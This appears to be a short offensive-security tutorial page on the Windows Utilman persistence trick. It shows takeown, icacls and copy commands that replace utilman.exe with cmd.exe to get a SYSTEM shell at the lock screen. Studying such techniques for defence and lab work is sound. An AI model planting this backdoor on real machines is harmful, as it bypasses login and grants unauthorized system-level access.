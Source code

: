 ### Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>



When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

**Victim(cmd)**

```
takeown /f c:\Windows\System32\utilman.exe

icacls C:\Windows\System32\utilman.exe /grant Administrator:F

copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

<figure><img src="../../.gitbook/assets/image (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

